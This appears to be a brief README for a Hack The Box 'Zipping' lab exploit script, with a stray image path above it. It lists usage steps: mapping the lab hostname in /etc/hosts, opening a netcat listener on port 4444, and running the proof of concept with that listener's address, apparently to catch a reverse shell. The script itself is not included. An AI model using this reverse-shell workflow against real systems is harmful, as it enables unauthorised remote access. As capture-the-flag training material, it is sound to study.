 # HTB_Zipping

Usage: python3 HTB_Zipping_poc.py \<listener ip\> \<listener port\>

<p>1.echo "10.10.11.229 zipping.htb" >> /etc/hosts</p>
<p>2.nc -nvlp 4444</p>
<p>3.python3 HTB_Zipping_poc.py 10.10.14.1 4444</p>
